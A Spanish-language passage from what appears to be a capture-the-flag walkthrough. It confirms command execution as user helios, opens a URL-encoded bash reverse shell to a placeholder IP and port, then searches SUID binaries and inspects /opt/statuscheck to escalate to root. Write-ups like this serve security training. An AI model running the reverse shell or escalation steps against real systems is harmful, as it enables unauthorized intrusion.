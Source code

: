 comprobamos ejecutando un comando como `whoami` y vemos el resultado.
____
![](attachment/1a8f8d4a6bcd6fb73af9d3f45d8d8786.png)
___
nos muestra que somos el usuario helios, ahora podemos con el siguiente comando podremos entablar un reverse shell a nuestro equipo utilizando `bash -c "bash -i >%26 /dev/tcp/<direccion_ip>/<puerto> 0>%261"`.
____
una vez dentro enumeramos el sistema para encontrar posibles rutas por la cual escalar a root.

con el comando `find / -perm -4000 2>/dev/null` y se nos muestra todos los binarios disponibles.
____
![](attachment/4299db5efa60141599ee63685ce8184c.png)
____
investigando sus contenidos o podemos buscar por google a ver si se encuentra algo acerca de ese mismo binario. en esta ocacion nos enfocamos en `/opt/statuscheck` el cual con el comando strings podremos listar contenido del archivo.
_____